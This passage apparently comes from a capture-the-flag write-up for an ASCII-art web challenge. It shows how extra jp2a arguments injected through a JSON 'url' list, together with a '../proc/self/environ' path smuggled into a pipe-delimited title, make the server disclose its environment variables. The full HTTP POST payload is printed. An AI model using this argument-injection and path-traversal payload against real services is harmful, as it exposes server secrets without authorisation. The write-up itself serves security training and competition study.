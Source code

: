 - We can also use the `--output` option to export the output file, so we redirect the output to the `request` folder.


In the `result/` folder the files are stored in the following way: `filename|session_id|output_filename`.
What we can do is to set `output_filename` to `proc/self/environ`, which contains the env variables. The page will read its content. 

What we should do is to save in the `result/` folder the following content:
`url|session_id|env_var_path`.

If we use the command `jp2a URL --output request/32_chars --html --html-title='random|session_id|../proc/self/environ|'`
the page `request/32_chars` will look like:

```
<?xml version='1.0' encoding='UTF-8' ?>

<!DOCTYPE html PUBLIC '-//W3C//DTD XHTML 1.0 Strict//EN' 'http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd'>

<html xmlns='http://www.w3.org/1999/xhtml' lang='en' xml:lang='en'>

<head>

<title>'title_page|BSNX4NTXYHFWNuu-4upmO7b8K47GlQ91|../proc/self/environ|'</title>

<style type='text/css'>

body { 
...
```

The `split("|")` command will divide the above output in 4 parts:
- start of html + random (which is ignored)
- session_id
- ../proc/self/environ
- end of HTML page (which will be ignored since only the first part are requested in the unpacking of the return values)

We final payload will be:

```
POST /request HTTP/1.1
Host: asciiart.asisctf.com:9000
Content-Length: 280
...
Cookie: connect.sid=s%3Ae0NioPxAjFReGZtAVRb-vv24zmtBObCC.4ioY9LjCsGB%2B%2FGZKh%2B3TWIC8aCzmHpTOncW4FRbuygk
Connection: close

{"url":["https://images.all-free-download.com/images/graphiclarge/animal_pictures_08_hd_picture_168987.jpg", 
 "--html",
"--html-title='title_page|e0NioPxAjFReGZtAVRb-vv24zmtBObCC|../proc/self/environ|'",
"--output=./request/xoCbzbZYNEwtZBmPntD6XIS79HhgzbkN"
]}
```
